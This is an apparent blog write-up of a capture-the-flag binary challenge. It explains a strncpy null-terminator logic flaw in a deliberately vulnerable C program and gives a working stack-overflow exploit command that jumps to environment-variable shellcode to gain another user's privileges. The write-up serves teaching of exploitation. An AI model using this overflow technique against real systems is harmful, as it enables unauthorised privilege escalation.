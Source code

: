 ![Logo](/assets/images/belts-orange.png)

In this post we'll continue with level3 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing with a slightly more interesting vulnerability, an application logic vulnerability, again involving strings operations.
To review the previous levels, check the link below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level3@hacking.certifiedsecure.com -p 8266
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.



   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level3
```

NX is disabled and again there is no stack canary. Good news. Let's verify that the stack is executable:

```
$ readelf -lW level3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

In this case we have a logic vulnerability. Notice that now string copying is done in a more secure way, using the [strncpy](http://www.cplusplus.com/reference/cstring/strncpy/) function, which receives as its 3rd parameter a maximum number of character to be copied from source to destination buffer. There is a very important caveat here, however:
> No null-character is implicitly appended at the end of _destination_ if _source_ is longer than _num_. Thus, in this case, destination shall not be considered a null terminated C string (reading it as such would overflow).

```c
#include <string.h>
#include <stdio.h>

void foo(char* a, char* b) {
        char buf1[16];
        char buf2[16];
        char buf3[16];
        int i;

        for (i=0; i<16;i++) {
                buf2[i] = "A";
        }

        if (strlen(a) <= sizeof(buf3)) {
[1]             strncpy(buf3, a, sizeof(buf3));


[2]             if (strlen(b) <= strlen(buf3)) {
[3]                     strcpy(buf1, b);
                }
        }
}

int main(int argc, char** argv) {
        if (argc != 3) {
                printf("Usage: %s <a> <b>\n", argv[0]);

                return -1;
        }

        foo(argv[1], argv[2]);
        return 0;
}
```


* So the call to **strncpy(buf3, a, sizeof(buf3)) [1]** will **not** add a null terminator to **buf3** if parameter **a** (first user input!) is exactly 16 characters.
* Following this, the call to **strlen(buf3) [2]** will go over the bounds of the string **buf3** (no null terminator for **buf3**) and will return a larger value than expected. 
* This will lead to the execution of the **strcpy(buf1, b) [3]** call, which will overflow **buf1** with **b** (second user input), thus giving us the posibility to control again the return address from function **foo**.


## 2 - Exploit

For all the steps describe before to work, the layot of the stack of function **foo** is very important. Let's check that in IDA. After a bit of renaming, the variables on stack look like this: 

![Logo](/assets/images/bm3-1.png)

Steps:
* We need a payload of 16 characters in **a**.
* We need to put 32 bytes in **buf1** from **b** in order to overwrite the return address. 
* We'll use the same trick with the shellcode placed in an environment variable.

```bash
$ ./level3 $(python -c 'print "B"*16') $(python -c 'print "C"*32 + "\xd3\xd8\xff\xff"')
$ id
uid=1004(level3) gid=1004(level3) euid=1005(level4) groups=1005(level4),1004(level3)
```

## 3 - Profit

```
$ /home/level4/victory
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____    
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                                          
Subject: Victory!                         

Congrats, you have solved level3. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level3 @ binary mastery ensign)
   * the exploit 
   
You can now start with level4. If you want, you can log in
as level4 with password  [REDACTED] 
```
